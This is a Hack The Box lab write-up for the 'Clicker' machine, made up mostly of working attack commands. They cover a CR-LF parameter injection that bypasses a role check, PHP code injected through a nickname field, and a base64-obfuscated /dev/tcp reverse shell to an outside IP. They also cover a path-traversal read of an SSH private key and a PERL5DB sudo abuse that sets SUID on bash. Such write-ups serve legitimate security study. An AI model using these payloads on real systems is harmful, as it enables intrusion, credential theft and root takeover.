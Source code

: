 ```yaml
---
slug: /write-up/htb/machines/medium/clicker
pagination_next: null
pagination_prev: null
---
```


## Enumeration

The machine has a NFS share sharing the source code

Checking the source code we see a potential SQL injection following a similar pattern of this:

https://phpdelusions.net/pdo/sql_injection_example

curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=blabla' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'

We can arbirtraryly change key-values in the database in the query, however, there's a explicit check to try to change the role:

```php
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
```

## Foothold

In order to avoid this, we need to mask the key somehow, an idea can be to bypass that restriction using CR-LF injection:

```bash
curl -vv 'http://clicker.htb/save_game.php?role%0a=Admin' -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie'
```

Now, we are admin in the PHP application and we can perform more enumerations.

We discovered some interesting pages:
- admin.php: Generates a list with the top users.
- export.php: Generate a file `exports/top_players_fwhb6q51`, no more info. Maybe it's good to do user enumeration?
- diagnostic.php: Protected by a md5 token

We can access the generated files by the exporting function...
```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie' --data-raw 'threshold=0&extension=html'
```

We can change the extension to PHP. 

```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh' --data-raw 'threshold=0&extension=php'
```

We can change the nickname of the user to execute arbitrary PHP code. We'll change the nickname to make execute the following PHP code:

```php
<?php $output = exec('id');echo "$output";?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20echo%20%221234%22%3B%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

Now we can repeat the process but to run a reverse shell:

```php
<?php system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx|base64 -d|bash")?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20system%28%22echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx%7Cbase64%20-d%7Cbash%22%29%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

We get a shell for the user www-data. We discovered a user named `jack` by checking /etc/passwd

## Lateral movement

During enumeration we discover there are two files in `/opt` files:

- monitor.sh: script that downloads the output of diagnostic.php, the user needs to be root
- manage/README
- manage/executequery: binary file that setup up all the environment

Let's download it and analyse it using `ghidra` ...

```c
    iVar1 = atoi(*(char **)(param_2 + 8));
    pcVar3 = (char *)calloc(0x14,1);
    switch(iVar1) {
    case 0:
      puts("ERROR: Invalid arguments");
      uVar2 = 2;
      goto LAB_001015e1;
    case 1:
      strncpy(pcVar3,"create.sql",0x14);
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
```
There's a default option that would copy any provided value in param_2 into `pcVar3`

```c
    local_98 = 0x616a2f656d6f682f;
    local_90 = 0x69726575712f6b63;
    local_88 = 0x2f7365;
    sVar4 = strlen((char *)&local_98);
    sVar5 = strlen(pcVar3);
    __dest = (char *)calloc(sVar5 + sVar4 + 1,1);
    strcat(__dest,(char *)&local_98);
    strcat(__dest,pcVar3);
    setreuid(1000,1000);
    iVar1 = access(__dest,4);
    if (iVar1 == 0) {
      local_78 = 0x6e69622f7273752f;
      local_70 = 0x2d206c7173796d2f;
```

`local_98` value corresponds to the string `/home/jack`. So, what it's doing this program is forcing the provided file is inside `/home/jack` folder, which we don't have access. However, we can read the private SSH key with this mechanism:

```bash
www-data@clicker:/opt/manage$ ./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
```

Now we just need to adapt the private key format comparing with some valid private key and boom, we are in as `jack`:

```bash
ssh jack@clicker.htb -i ../exfil/priv_key 
```

And we can read the user flag.

## Privilege escalation

`sudo -l` shows interesting stuff:

```bash
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

First of all, we try to run the monitoring script to see what happens:

```bash
jack@clicker:~$ sudo /opt/monitor.sh 
<?xml version="1.0"?>
<data>
```

An potential way to exploit this, is set the `EUID` to a number different than 0 so that it enters in the if when the user is not root:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;
```

The PATH is not well protected and if we provide the proper PATH variable, we can make `echo` program to point to our fradulent implementation ... Let's give it a try ...

Interesting, this technique does not seem to work with `echo` for some kind of reason but work with `ls` for instance. Looks like `echo` is a bult-in executable in the shell and does not use the `PATH` variable to determine where is it.

We can use `PERL5OPT` to set the debugger flag for perl and `PERL5DB` to specify the command we want to use as a debugger:

```bash
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("ls");' /opt/monitor.sh 
queries  user.txt
```

However, if we try to get a shell from here, we'll fail:

```
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("/bin/bash");' /opt/monitor.sh 
/bin/bash: line 1: syntax error near unexpected token `newline'
/bin/bash: line 1: `<?xml version="1.0"?>'
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
```

But, we can do a nasty thing, we can set the SUID flag so that if keeps the root permission, even if the user is not root:

```bash
sudo PERL5OPT=-d PERL5DB='system("chmod u+s /bin/bash");' /opt/monitor.sh

jack@clicker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

If we run bash normally we'll not get the root console:

```bash
jack@clicker:~$ bash
bash-5.1$ whoami
jack
```

However, there's a flag `-p` in bash to use the effective user id instead of the real user id:

```bash
jack@clicker:~$ bash -p
bash-5.1# whoami
root
```

And now we can read the root flag.
